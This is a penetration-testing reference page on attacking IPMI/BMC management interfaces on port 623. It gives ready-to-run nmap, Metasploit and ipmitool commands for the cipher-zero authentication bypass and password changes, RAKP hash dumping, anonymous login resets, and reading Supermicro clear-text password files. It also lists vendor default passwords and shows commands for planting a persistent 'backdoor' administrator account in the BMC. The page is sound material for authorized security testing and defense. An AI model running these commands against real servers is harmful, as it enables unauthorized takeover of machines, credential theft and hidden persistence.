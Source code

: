 # 623/UDP/TCP - IPMI

## Basic Information

### **Overview of IPMI**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** offers a standardized approach for remote management and monitoring of computer systems, independent of the operating system or power state. This technology allows system administrators to manage systems remotely, even when they're off or unresponsive, and is especially useful for:

- Pre-OS boot configurations
- Power-off management
- Recovery from system failures

IPMI is capable of monitoring temperatures, voltages, fan speeds, and power supplies, alongside providing inventory information, reviewing hardware logs, and sending alerts via SNMP. Essential for its operation are a power source and a LAN connection.

Since its introduction by Intel in 1998, IPMI has been supported by numerous vendors, enhancing remote management capabilities, especially with version 2.0's support for serial over LAN. Key components include:

- **Baseboard Management Controller (BMC):** The main micro-controller for IPMI operations.
- **Communication Buses and Interfaces:** For internal and external communication, including ICMB, IPMB, and various interfaces for local and network connections.
- **IPMI Memory:** For storing logs and data.

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**Default Port**: 623/UDP/TCP (It's usually on UDP but it could also be running on TCP)

## Enumeration

### Discovery

```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```

You can **identify** the **version** using:

```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```

### IPMI Vulnerabilities

In the realm of IPMI 2.0, a significant security flaw was uncovered by Dan Farmer, exposing a vulnerability through **cipher type 0**. This vulnerability, documented in detail at [Dan Farmer's research](http://fish2.com/ipmi/cipherzero.html), enables unauthorized access with any password provided a valid user is targeted. This weakness was found across various BMCs from manufacturers like HP, Dell, and Supermicro, suggesting a widespread issue within all IPMI 2.0 implementations.

### **IPMI Authentication Bypass via Cipher 0**

To detect this flaw, the following Metasploit auxiliary scanner can be employed:

```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```

Exploitation of this flaw is achievable with `ipmitool`, as demonstrated below, allowing for the listing and modification of user passwords:

```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```

### **IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval**

This vulnerability enables retrieval of salted hashed passwords (MD5 and SHA1) for any existing username. To test this vulnerability, Metasploit offers a module:

```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```

### **IPMI Anonymous Authentication**

A default configuration in many BMCs allows "anonymous" access, characterized by null username and password strings. This configuration can be exploited to reset passwords of named user accounts using `ipmitool`:

```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```

### **Supermicro IPMI Clear-text Passwords**

A critical design choice in IPMI 2.0 necessitates the storage of clear-text passwords within BMCs for authentication purposes. Supermicro's storage of these passwords in locations such as `/nv/PSBlock` or `/nv/PSStore` raises significant security concerns:

```bash
cat /nv/PSBlock
```

### **Supermicro IPMI UPnP Vulnerability**

Supermicro's inclusion of a UPnP SSDP listener in its IPMI firmware, particularly on UDP port 1900, introduces a severe security risk. Vulnerabilities in the Intel SDK for UPnP Devices version 1.3.1, as detailed by [Rapid7's disclosure](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play), allow for root access to the BMC:

```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```

### Brute Force

**HP randomizes the default password** for its **Integrated Lights Out (iLO)** product during manufacture. This practice contrasts with other manufacturers, who tend to use **static default credentials**. A summary of default usernames and passwords for various products is provided as follows:

- **HP Integrated Lights Out (iLO)** uses a **factory randomized 8-character string** as its default password, showcasing a higher security level.
- Products like **Dell's iDRAC, IBM's IMM**, and **Fujitsu's Integrated Remote Management Controller** use easily guessable passwords such as "calvin", "PASSW0RD" (with a zero), and "admin" respectively.
- Similarly, **Supermicro IPMI (2.0), Oracle/Sun ILOM**, and **ASUS iKVM BMC** also use simple default credentials, with "ADMIN", "changeme", and "admin" serving as their passwords.

## Accessing the Host via BMC

Administrative access to the Baseboard Management Controller (BMC) opens various pathways for accessing the host's operating system. A straightforward approach involves exploiting the BMC's Keyboard, Video, Mouse (KVM) functionality. This can be done by either rebooting the host to a root shell via GRUB (using `init=/bin/sh`) or booting from a virtual CD-ROM set as a rescue disk. Such methods allow for direct manipulation of the host's disk, including the insertion of backdoors, data extraction, or any necessary actions for a security assessment. However, this requires rebooting the host, which is a significant drawback. Without rebooting, accessing the running host is more complex and varies with the host's configuration. If the host's physical or serial console remains logged in, it can easily be taken over through the BMC's KVM or serial-over-LAN (sol) functionalities via `ipmitool`. Exploring the exploitation of shared hardware resources, like the i2c bus and Super I/O chip, is an area that demands further investigation.

## Introducing Backdoors into BMC from the Host

Upon compromising a host equipped with a BMC, the **local BMC interface can be leveraged to insert a backdoor user account**, creating a lasting presence on the server. This attack necessitates the presence of **`ipmitool`** on the compromised host and the activation of BMC driver support. The following commands illustrate how a new user account can be injected into the BMC using the host's local interface, which bypasses the need for authentication. This technique is applicable to a wide range of operating systems including Linux, Windows, BSD, and even DOS.

```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```

## Shodan

- `port:623`

## References

- [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)

